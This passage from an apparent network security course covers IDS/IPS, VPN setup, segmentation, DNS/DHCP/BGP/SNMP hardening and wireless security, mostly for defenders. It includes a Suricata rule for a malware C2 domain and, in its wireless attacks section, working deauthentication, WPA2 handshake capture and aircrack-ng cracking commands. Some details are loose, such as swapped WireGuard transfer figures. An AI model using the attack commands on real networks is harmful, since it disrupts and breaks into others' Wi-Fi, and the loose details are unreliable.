<a href="../../../assets/images/diagrams/cyber-security/03-network-security/3-5-ids-vs-ips-comparison-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/3-5-ids-vs-ips-comparison-sticky.svg" target="_blank" rel="noopener">
  
</a>


| Aspect | IDS | IPS |
|--------|-----|-----|
| Deployment | Passive (mirror port / network tap) | Inline (between firewall and switch) |
| Traffic Impact | None (monitoring only) | Can drop/reset connections |
| Latency | Zero added latency | 1-5ms added latency (inline processing) |
| Failure Mode | Failure = lost visibility | Failure = traffic blocked (fail-close) or bypassed (fail-open) |
| Detection | Same signature/anomaly engines | Same engines + blocking capability |
| Use Case | Forensics, compliance monitoring | Active threat prevention |
| Bypass Risk | Limited (traffic already passed) | High (inline break affects all traffic) |
| Management | Tune alerts, reduce false positives | Balance false positives vs preventable attacks |

**Decision Tree: IDS vs IPS Deployment**

```
Do you need to block attacks in real time?
├── Yes → Can your rules handle false positives?
│   ├── Yes → Deploy IPS (inline)
│   └── No → Deploy IDS first, tune rules, then IPS
└── No → Deploy IDS (passive monitoring)
```

### 3.6 HIDS vs NIDS

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/3-6-hids-vs-nids-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/3-6-hids-vs-nids-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/3-6-hids-vs-nids-sticky.svg" target="_blank" rel="noopener">
  
</a>


| Aspect | NIDS (Network IDS) | HIDS (Host IDS) |
|--------|-------------------|-----------------|
| Monitoring Scope | Network segment | Single host |
| Data Source | Packets, flows | Logs, file integrity, syscalls |
| Detection | Protocol anomalies, malware C2 | File changes, privilege escalation |
| Example Tools | Snort, Suricata, Zeek | OSSEC, Wazuh, Tripwire |
| Visibility | All traffic on segment | All host activity |
| Blind Spots | Encrypted traffic | Network-level attacks |

### 3.7 Snort/Suricata → Live Detection Dry Run

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/3-7-snort-suricata-live-detection-dry-run-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/3-7-snort-suricata-live-detection-dry-run-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/3-7-snort-suricata-live-detection-dry-run-sticky.svg" target="_blank" rel="noopener">
  
</a>


Scenario: A machine on the internal network attempts to connect to a known malware C2 domain (winmalware[.]xyz) on port 443.

```
1. Packet arrives at Suricata interface
2. Suricata parses TLS ClientHello → extracts SNI field: "winmalware[.]xyz"
3. Suricata matches rule:
   alert tls $HOME_NET any -> $EXTERNAL_NET any
     (msg:"Known Malware C2 Domain";
      tls.sni; content:"winmalware.xyz"; nocase;
      sid:3000001; rev:1;)
4. Event logged to /var/log/suricata/eve.json:
   {
     "event_type": "alert",
     "alert": {
       "action": "allowed",
       "signature_id": 3000001,
       "signature": "Known Malware C2 Domain",
       "category": "Unknown Traffic"
     },
     "tls": {
       "sni": "winmalware[.]xyz"
     },
     "src_ip": "192.168.1.100",
     "dest_ip": "10.20.30.40",
     "proto": "TCP"
   }
5. If inline (IPS mode): Suricata sends TCP RST to both sides → connection blocked
```

---

## Section 4: Virtual Private Networks (VPNs)

### 4.1 Overview

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/4-1-overview-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/4-1-overview-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/4-1-overview-sticky.svg" target="_blank" rel="noopener">
  
</a>


A VPN creates an encrypted tunnel between two endpoints over an untrusted network (the internet). It provides:
- **Confidentiality:** Encryption prevents eavesdropping
- **Integrity:** HMAC ensures data not tampered
- **Authentication:** Verifies both endpoints
- **Access Control:** Restricts which resources are reachable

**Real-World Analogy:** A VPN is like an armored tunnel through a dangerous neighborhood. You enter at your house, travel through the armored tunnel, and emerge inside your office. People outside cannot see what you're carrying or where you're going.

### 4.2 VPN Types

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/4-2-vpn-types-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/4-2-vpn-types-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/4-2-vpn-types-sticky.svg" target="_blank" rel="noopener">
  
</a>


**Site-to-Site VPN:**

Connects entire networks (e.g., branch office to HQ).

```
[Branch Office: 10.1.0.0/16]
     |
 [VPN Gateway A] =====encrypted tunnel===== [VPN Gateway B]
     |
[Headquarters: 10.0.0.0/16]
```

**Remote Access VPN:**

Individual users connect to corporate network.

```
[User Laptop] ---internet--- [VPN Gateway] --- [Corporate Network]
    ^                           ^
   VPN Client              VPN Server (OpenVPN, WireGuard)
```

### 4.3 IPsec VPN

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/4-3-ipsec-vpn-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/4-3-ipsec-vpn-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/4-3-ipsec-vpn-sticky.svg" target="_blank" rel="noopener">
  
</a>


**IPsec operates at Layer 3** and can encrypt any IP traffic (not just TCP/UDP).

**Modes:**

1. **Transport Mode:** Encrypts only payload (original IP header visible) → used for end-to-end
2. **Tunnel Mode:** Encrypts entire packet, wraps in new IP header → used for site-to-site

**IPsec Protocol Stack:**

```
| IP Header | ESP Header | Original IP Header | TCP Header | Payload | ESP Trailer | ESP Auth |
| (new)     |            | (encrypted)                                       |            |          |
```

**Internet Key Exchange (IKE) Process:**

```
IKE Phase 1 (Main Mode):
Step 1: Initiator sends SA proposal (encryption, hash, DH group)
Step 2: Responder selects matching SA
Step 3: DH key exchange → shared secret
Step 4: Authentication (PSK or certificates)
Result: ISAKMP SA (IKE SAs) → secure channel for negotiation

IKE Phase 2 (Quick Mode):
Step 1: Negotiate IPsec SA parameters (ESP/AH, crypto, SPI)
Step 2: Generate session keys from Phase 1 keying material
Step 3: Install IPsec SAs in kernel
Result: ESP/AH SAs → secure tunnel for data
```

**StrongSwan Configuration (Site-to-Site):**

```
# /etc/ipsec.conf
conn site-to-site
    type=tunnel
    auto=start
    left=203.0.113.1
    leftsubnet=10.1.0.0/16
    leftid=@branch-office
    right=198.51.100.1
    rightsubnet=10.0.0.0/16
    rightid=@headquarters
    ike=aes256-sha256-modp2048
    esp=aes256-sha256-modp2048
    keyexchange=ikev2
    ikelifetime=8h
    lifetime=1h
```

**Check IPsec status:**

```bash
# Show active IPsec SAs
ipsec statusall

# Expected output:
# Connections:
# site-to-site:  %any...198.51.100.1  IKEv2
# site-to-site:   local: [branch-office] uses pre-shared key
# site-to-site:   remote: [headquarters] uses pre-shared key
# site-to-site:   child: 10.1.0.0/16 === 10.0.0.0/16
# Security Associations (1 up, 0 connecting):
#   site-to-site[1]: ESTABLISHED 47 minutes ago
#   site-to-site[1]: {1028} 10.1.0.0/16 === 10.0.0.0/16
```

### 4.4 WireGuard VPN

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/4-4-wireguard-vpn-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/4-4-wireguard-vpn-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/4-4-wireguard-vpn-sticky.svg" target="_blank" rel="noopener">
  
</a>


**WireGuard** is a modern, high-performance VPN protocol. Key design principles:
- Minimal codebase (~4,000 lines vs ~400,000 for OpenVPN+IPsec)
- Uses modern cryptography (Curve25519, ChaCha20, Poly1305, BLAKE2s, HKDF)
- Built-in DoS mitigation and roaming
- Kernel integration (Linux 5.6+)

**WireGuard Configuration:**

```ini
# /etc/wireguard/wg0.conf
[Interface]
Address = 10.0.0.1/24
PrivateKey = gNTRs...server-private-key...
ListenPort = 51820

[Peer]
PublicKey = xTIBA...client-public-key...
AllowedIPs = 10.0.0.2/32
```

```ini
# /etc/wireguard/wg0-client.conf
[Interface]
Address = 10.0.0.2/24
PrivateKey = +I0cX...client-private-key...

[Peer]
PublicKey = /yN8G...server-public-key...
Endpoint = vpn.example.com:51820
AllowedIPs = 10.0.0.0/24, 10.10.0.0/16
PersistentKeepalive = 25
```

**WireGuard tunnel state verification:**

```bash
# Show tunnel status
wg show

# Expected output:
# interface: wg0
#   public key: /yN8G...
#   private key: (hidden)
#   listening port: 51820
#
# peer: xTIBA...
#   endpoint: 203.0.113.5:51820
#   allowed ips: 10.0.0.2/32
#   latest handshake: 1 minute, 30 seconds ago
#   transfer: 42.5 KiB received, 128.3 KiB sent

# Show quick statistics
wg show wg0 transfer

# Expected output: 128.3 KiB received, 42.5 KiB sent
```

### 4.5 OpenVPN Setup

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/4-5-openvpn-setup-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/4-5-openvpn-setup-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/4-5-openvpn-setup-sticky.svg" target="_blank" rel="noopener">
  
</a>


```bash
# Install OpenVPN
apt install openvpn easy-rsa

# Initialize PKI
make-cadir ~/openvpn-ca
cd ~/openvpn-ca
./easyrsa init-pki
./easyrsa build-ca
./easyrsa gen-req server nopass
./easyrsa sign-req server server
./easyrsa gen-dh
openvpn --genkey secret ta.key

# Server config (/etc/openvpn/server.conf)
port 1194
proto udp
dev tun
ca ca.crt
cert server.crt
key server.key
dh dh.pem
tls-auth ta.key 0
server 10.8.0.0 255.255.255.0
push "route 192.168.1.0 255.255.255.0"
keepalive 10 120
cipher AES-256-GCM
auth SHA256
user nobody
group nogroup
status openvpn-status.log
verb 3

# Start server
systemctl start openvpn@server
systemctl enable openvpn@server
```

### 4.6 IPsec vs WireGuard vs OpenVPN Comparison

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/4-6-ipsec-vs-wireguard-vs-openvpn-comparison-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/4-6-ipsec-vs-wireguard-vs-openvpn-comparison-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/4-6-ipsec-vs-wireguard-vs-openvpn-comparison-sticky.svg" target="_blank" rel="noopener">
  
</a>


| Feature | IPsec (IKEv2) | WireGuard | OpenVPN |
|---------|---------------|-----------|---------|
| Code Size | ~400K lines | ~4K lines | ~150K lines |
| Crypto Agility | Multiple options (complex) | Fixed (Curve25519+ChaCha20) | Multiple options |
| Handshake | IKEv2 (2-4 round trips) | 1-RTT (single round trip) | TLS (2-3 round trips) |
| Latency | Higher (negotiation overhead) | Minimal | Moderate |
| Throughput | 500-800 Mbps (AES-NI) | 1-2 Gbps | 300-600 Mbps |
| NAT Traversal | IKEv2 MOBIKE support | Built-in roaming | Requires keepalive |
| Kernel Integration | Yes (strongSwan/libreswan) | Yes (Linux 5.6+) | No (tun device) |
| Configuration Complexity | High | Low | Medium |
| DoS Protection | Cookie mechanism | DoS-resistant by design | TLS DDoS vulnerable |
| Perfect Forward Secrecy | Yes (DH) | Yes (Ephemeral keys) | Yes (DHE) |
| Auditability | Low (too complex) | High (minimal code) | Medium |
| Mobile Support | MOBIKE (some devices) | Excellent (roaming) | Good (TCP fallback) |
| Use Case | Enterprise site-to-site | Performance-critical, mobile | Compatibility, all platforms |

---

## Section 5: Network Segmentation

### 5.1 Overview

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/5-1-overview-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/5-1-overview-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/5-1-overview-sticky.svg" target="_blank" rel="noopener">
  
</a>


Network segmentation divides a network into smaller logical or physical segments to:
- Contain breaches (limit lateral movement)
- Isolate sensitive systems
- Improve performance (reduce broadcast domains)
- Simplify compliance (PCI DSS, HIPAA scoping)

**Real-World Analogy:** Network segmentation is like a ship with watertight compartments. If one compartment floods (breach), the ship stays afloat because the water does not spread to other compartments.

### 5.2 VLANs (Virtual LANs)

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/5-2-vlans-virtual-lans-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/5-2-vlans-virtual-lans-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/5-2-vlans-virtual-lans-sticky.svg" target="_blank" rel="noopener">
  
</a>


**How it works:** VLANs segment a switched network at Layer 2 without requiring separate physical switches.

```
Switch Configuration:
VLAN 10 → Management     (10.0.10.0/24)
VLAN 20 → Users          (10.0.20.0/24)
VLAN 30 → Servers        (10.0.30.0/24)
VLAN 40 → DMZ            (10.0.40.0/24)
VLAN 99 → Native/Untagged
```

**VLAN hopping attacks:**

1. **Switch Spoofing:** Attacker emulates DTP (Dynamic Trunking Protocol) to negotiate trunk link
2. **Double Tagging:** Attacker sends 802.1Q frame with two VLAN tags

**Mitigation:**

```bash
# Disable DTP on access ports
switchport mode access
switchport nonegotiate

# Set native VLAN to unused VLAN
switchport trunk native vlan 999

# Disable unused ports
shutdown

# Apply VLAN ACLs (VACL)
vlan access-map BLOCK-VLAN20 10
  match ip address BLOCK-ACL
  action drop
```

### 5.3 DMZ (Demilitarized Zone)

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/5-3-dmz-demilitarized-zone-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/5-3-dmz-demilitarized-zone-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/5-3-dmz-demilitarized-zone-sticky.svg" target="_blank" rel="noopener">
  
</a>


A DMZ is a buffer network between the internet and internal network. Public-facing servers (web, email, DNS) are placed in the DMZ.

```
[Internet] --- [External FW] --- [DMZ] --- [Internal FW] --- [Internal Network]
                                    |
                              Web Server
                              Mail Server
                              DNS Server
```

**Traffic Flow Rules:**

```
External → DMZ: Allow HTTP/HTTPS to web server (port 80, 443)
External → Internal: Deny all
DMZ → Internal: Allow specific (e.g., DB queries on port 3306)
Internal → DMZ: Allow management (SSH, RDP)
DMZ → Internet: Allow updates (apt, yum)
```

### 5.4 Micro-Segmentation

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/5-4-micro-segmentation-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/5-4-micro-segmentation-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/5-4-micro-segmentation-sticky.svg" target="_blank" rel="noopener">
  
</a>


**How it works:** Further divides segments into per-workload or per-application security zones, typically using:
- Software-defined networking (SDN)
- Host-based firewalls (e.g., iptables on each container)
- Service mesh (e.g., Istio for Kubernetes)

**Zero Trust Micro-Segmentation Example (Kubernetes Network Policy):**

```yaml
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: api-db-policy
spec:
  podSelector:
    matchLabels:
      app: database
  policyTypes:
  - Ingress
  ingress:
  - from:
    - podSelector:
        matchLabels:
          app: api-server
    ports:
    - protocol: TCP
      port: 5432
```

This ensures ONLY pods labeled `api-server` can connect to `database` pods on port 5432 → all other traffic is blocked.

**Advantages & Disadvantages of Micro-Segmentation:**

| Advantages | Disadvantages |
|------------|---------------|
| Granular containment (blast radius of 1 pod) | Complex policy management at scale |
| Enables zero trust (default deny) | Requires SDN/SI integration |
| Reduces attack surface | Debugging connectivity issues is harder |
| Compliance-friendly (PCI scope isolation) | Performance overhead (policy enforcement) |

**Edge Cases:**
- **VLAN exhaustion:** Only 4094 VLANs (802.1Q limit); micro-segmentation uses VXLAN (16M segments)
- **Broadcast storms:** Misconfigured STP or loops can bring down entire VLAN
- **Dynamic workloads:** Containers that move require dynamic policy updates
- **IPv6:** VLANs work differently in IPv6 networks (no broadcast, uses multicast)

---

## Section 6: Protocol Security

### 6.1 DNS Security

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/6-1-dns-security-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/6-1-dns-security-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/6-1-dns-security-sticky.svg" target="_blank" rel="noopener">
  
</a>


**Threats:**
- **DNS Cache Poisoning (Kaminsky):** Inject fake DNS records into recursive resolver's cache
- **DNS Tunneling:** Encode data in DNS queries for exfiltration/C2
- **NXDOMAIN Attacks:** Flood resolvers with non-existent domain queries
- **DNS Amplification:** DDoS using open resolvers

**DNSSEC (DNS Security Extensions):**

```
DNSSEC adds digital signatures to DNS records:
- RRSIG: Resource Record Signature (signs each record set)
- DNSKEY: Public key for verification
- DS: Delegation Signer (chain of trust)
- NSEC/NSEC3: Authenticated denial of existence

Chain of Trust:
Root Zone → .com → example.com → www.example.com
  (trust anchor) (DS record)    (DNSKEY)    (A + RRSIG)
```

**DNS Security Best Practices:**

```bash
# 1. Rate-limit DNS queries
iptables -A INPUT -p udp --dport 53 -m limit --limit 100/s -j ACCEPT

# 2. Disable recursion on authoritative servers
options {
    allow-recursion { none; };
    recursion no;
};

# 3. Use DNS over HTTPS (DoH) / DNS over TLS (DoT)
# Unbound configuration:
server:
    do-tls: yes
    tls-cert-bundle: "/etc/ssl/certs/ca-certificates.crt"
forward-zone:
    name: "."
    forward-tls-upstream: yes
    forward-addr: 1.1.1.1@853#cloudflare-dns.com

# 4. Query logging for anomaly detection
options {
    querylog yes;
};
```

### 6.2 DHCP Security

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/6-2-dhcp-security-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/6-2-dhcp-security-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/6-2-dhcp-security-sticky.svg" target="_blank" rel="noopener">
  
</a>


**Threats:**
- **DHCP Starvation:** Exhaust IP pool with fake requests
- **Rogue DHCP Server:** Attacker assigns malicious gateway/DNS
- **DHCP Spoofing:** Man-in-the-middle via fake DHCP responses

**DHCP Snooping Configuration (Cisco):**

```bash
# Enable DHCP snooping globally
ip dhcp snooping

# Enable on VLANs
ip dhcp snooping vlan 10,20,30

# Trust DHCP server ports
interface GigabitEthernet0/1
    ip dhcp snooping trust

# Rate-limit DHCP on access ports
interface GigabitEthernet0/2
    ip dhcp snooping limit rate 10

# Enable option-82 (circuit ID)
ip dhcp snooping information option
```

### 6.3 BGP Security

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/6-3-bgp-security-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/6-3-bgp-security-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/6-3-bgp-security-sticky.svg" target="_blank" rel="noopener">
  
</a>


**Threats:**
- **BGP Hijacking:** Malicious AS announces prefixes it does not own
- **Route Leak:** Misconfigured BGP router advertises learned routes to wrong peer
- **Prefix De-aggregation:** Hijacker announces more specific prefix to intercept traffic

**BGP Hijacking Example (YouTube 2008):**
Pakistan Telecom hijacked YouTube's prefix (208.65.153.0/24) by announcing a more specific /24, causing global outage.

**BGP Security Controls:**

```bash
# 1. Prefix Filtering (both directions)
ip prefix-list ALLOWED-PREFIXES seq 5 permit 192.0.2.0/24 le 24

neighbor 203.0.113.1 prefix-list ALLOWED-PREFIXES in
neighbor 203.0.113.1 prefix-list CUSTOMER-PREFIXES out

# 2. Max-prefix limit
neighbor 203.0.113.1 maximum-prefix 1000 80 restart 30

# 3. TTL Security Check (GTSM)
neighbor 203.0.113.1 ttl-security hops 1

# 4. RPKI (Resource Public Key Infrastructure)
# Validates that AS is authorized to originate prefix
router bgp 64500
    bgp rpki server tcp 192.0.2.10 port 323
    rpki table
    neighbor 203.0.113.1 rpki route-map RPKI-FILTER in

route-map RPKI-FILTER permit 10
    match rpki valid
```

### 6.4 SNMP Security

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/6-4-snmp-security-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/6-4-snmp-security-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/6-4-snmp-security-sticky.svg" target="_blank" rel="noopener">
  
</a>


**Threats:**
- **SNMP Community String Brute Force:** Default strings "public"/"private"
- **SNMP Information Leak:** Full system information through `snmpwalk`
- **SNMP DDoS:** Amplification via open SNMP (default port 161)

**SNMPv3 Configuration (Secure):**

```bash
# Create SNMPv3 user with auth + encryption
net-snmp-config --create-snmpv3-user \
  -a SHA512 \
  -A "StrongAuthPass123!" \
  -x AES256 \
  -X "StrongPrivPass456!" \
  monitor-user

# snmpwalk with v3 authentication
snmpwalk -v3 \
  -u monitor-user \
  -l authPriv \
  -a SHA512 \
  -A "StrongAuthPass123!" \
  -x AES256 \
  -X "StrongPrivPass456!" \
  192.168.1.100 system

# Expected output:
# SNMPv2-MIB::sysDescr.0 = STRING: Linux server 5.15.0-generic
# SNMPv2-MIB::sysUpTime.0 = Timeticks: (1234567) 3:25:45.67
# SNMPv2-MIB::sysContact.0 = STRING: admin@example.com
# ...
```

**SNMP Security Best Practices:**

```bash
# 1. Block SNMP at firewall
iptables -A INPUT -p udp --dport 161 -j DROP
iptables -A INPUT -p tcp --dport 161 -j DROP

# 2. Restrict SNMP to management subnet
iptables -A INPUT -p udp --dport 161 -s 10.0.0.0/8 -j ACCEPT

# 3. Disable SNMPv1/v2c (community strings)
# /etc/snmp/snmpd.conf
agentAddress udp:127.0.0.1:161
createUser admin SHA512 "authpass" AES256 "privpass"
rouser admin authPriv

# 4. Limit MIB tree access
view system-only included .1.3.6.1.2.1.1
access MyUserGroup "" any noauth exact system-only none none
```

---

## Section 7: Wireless Security

### 7.1 Overview

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/7-1-overview-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/7-1-overview-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/7-1-overview-sticky.svg" target="_blank" rel="noopener">
  
</a>


Wireless networks use radio waves, which propagate through walls and are inherently vulnerable to:
- Eavesdropping (packet sniffing)
- Unauthorized access (wardriving)
- Man-in-the-middle (evil twin)
- Denial of service (deauthentication attacks)

**Real-World Analogy:** Wireless communication is like two people talking in a crowded room → anyone can listen. You need encryption (a secret language) and authentication (voice recognition) to keep conversations private.

### 7.2 WPA2 vs WPA3

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/7-2-wpa2-vs-wpa3-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/7-2-wpa2-vs-wpa3-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/7-2-wpa2-vs-wpa3-sticky.svg" target="_blank" rel="noopener">
  
</a>


| Feature | WPA2 | WPA3 |
|---------|------|------|
| Authentication | PSK (Pre-Shared Key) | SAE (Simultaneous Authentication of Equals) |
| Encryption | CCMP/AES-128 | GCMP/AES-256 |
| Key Exchange | 4-Way Handshake (offline brute-forceable) | SAE Handshake (forward secrecy) |
| KRACK Vulnerability | Susceptible (KRACK CVE-2017-13077) | Resistant (MGTK/IGTK rotation) |
| Offline Brute Force | Possible (capture 4-way handshake) | Not feasible (SAE prevents offline attack) |
| PMF (Protected Management Frames) | Optional (802.11w) | Mandatory |
| Target Wake Time | No | Yes (IoT power saving) |
| Backward Compatibility | N/A | Mixed-mode WPA3/WPA2 transition |
| Public Wi-Fi | Open (no encryption) | OWE (Opportunistic Wireless Encryption) |
| Password Guessing | 4-way handshake captured offline | SAE requires online interaction per guess |

### 7.3 802.1X / EAP

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/7-3-802-1x-eap-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/7-3-802-1x-eap-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/7-3-802-1x-eap-sticky.svg" target="_blank" rel="noopener">
  
</a>


**Enterprise Wireless Authentication:**

```
[Supplicant] ---EAP over LAN--- [Authenticator (AP)] ---RADIUS--- [Authentication Server (FreeRADIUS)]
    ^                                                              ^
  Laptop with cert                                              AD/LDAP
```

**EAP Methods:**

| Method | Security | Description |
|--------|----------|-------------|
| EAP-TLS | Very High | Certificate on both client and server |
| EAP-TTLS | High | Server certificate + tunneled password |
| EAP-PEAP | High | Server certificate + MSCHAPv2 in TLS tunnel |
| EAP-FAST | Medium | Protected Access Credential (Cisco) |
| LEAP | LOW (deprecated) | MSCHAPv2 vulnerabilities |

**FreeRADIUS Configuration:**

```bash
# /etc/freeradius/3.0/clients.conf
client 192.168.1.0/24 {
    secret = radius-secret-key
    shortname = internal-ap
}

# /etc/freeradius/3.0/mods-enabled/eap
eap {
    default-eap-type = ttls
    timer-expire = 60
    
    tls-config tls-common {
        private-key-file = /etc/ssl/certs/server.key
        certificate-file = /etc/ssl/certs/server.crt
        ca-file = /etc/ssl/certs/ca.crt
    }
}
```

### 7.4 Rogue AP Detection

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/7-4-rogue-ap-detection-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/7-4-rogue-ap-detection-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/7-4-rogue-ap-detection-sticky.svg" target="_blank" rel="noopener">
  
</a>


**Methods to detect rogue access points:**

```bash
# 1. Wireless survey with airodump-ng
airodump-ng wlan0

# Expected output:
# BSSID              PWR  Beacons    #Data, CH  MB   ENC  CIPHER AUTH ESSID
# 00:11:22:33:44:55 -45   120        532    6   54e  WPA2 CCMP   PSK   Corporate-WiFi
# AA:BB:CC:DD:EE:FF -30  5          0      11  54e  WPA2 CCMP   PSK   !FREE_WIFI!   ← ROUGE (stronger signal, unknown ESSID)
# 66:77:88:99:AA:BB -65   45         0      1   54e  WPA2 CCMP   PSK   ⋯

# 2. Check for APs with same SSID but different BSSID (evil twin)
# Any SSID advertised by multiple BSSIDs should be investigated

# 3. Compare wired and wireless MAC addresses
# Rogue APs often bridge wireless to wired network
# Use nmap to discover wired devices and cross-reference

# 4. WIPS (Wireless IPS) → automated detection
# Cisco MSE, AirMagnet, or open-source Kismet
kismet -c wlan0
```

### 7.5 Wireless Attacks

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/7-5-wireless-attacks-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/7-5-wireless-attacks-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/7-5-wireless-attacks-sticky.svg" target="_blank" rel="noopener">
  
</a>


**Deauthentication Attack:**

```bash
# Send deauth frames to disconnect client
aireplay-ng -0 5 -a 00:11:22:33:44:55 -c AA:BB:CC:DD:EE:FF wlan0

# Parameters:
# -0 = deauth attack
# 5  = send 5 deauth packets
# -a = AP BSSID
# -c = client MAC

# Expected output:
# 12:34:56  Sending 64 directed DeAuth.  STMAC: [AA:BB:CC:DD:EE:FF] [5|5 ACKs]
```

**WPA2 Handshake Capture:**

```bash
# Capture in monitor mode
airmon-ng start wlan0
airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w capture wlan0mon

# When a client connects (or force deauth), handshake is captured:
# Expected: [ WPA handshake: 00:11:22:33:44:55 ]

# Crack handshake offline
aircrack-ng -w rockyou.txt capture-01.cap
```

### 7.6 WPA3 Security

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/7-6-wpa3-security-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/7-6-wpa3-security-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/7-6-wpa3-security-sticky.svg" target="_blank" rel="noopener">
  
</a>


**SAE (Simultaneous Authentication of Equals):**

```
Step 1: Both parties commit to a shared password-derived element
Step 2: Each generates an ephemeral private key (random scalar)
Step 3: Each sends commitment = H(password_identifier + scalar + element)
Step 4: Each sends confirm = H(commitment + scalar + element)
Step 5: On match → mutual authentication complete, PMK derived

Key properties:
- No offline dictionary attack: attacker must commit before seeing response
- Forward secrecy: session key derived from ephemeral keys
- Resistance to KRACK: different keys per session
```

**OWE (Opportunistic Wireless Encryption) → RFC 8110:**

For public Wi-Fi: each client gets a unique per-connection encryption key without needing a password.

---

## Section 8: Network Access Control (NAC)

### 8.1 Overview

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/8-1-overview-handwritten.svg" target="_blank" rel="noopener">
  
</a>
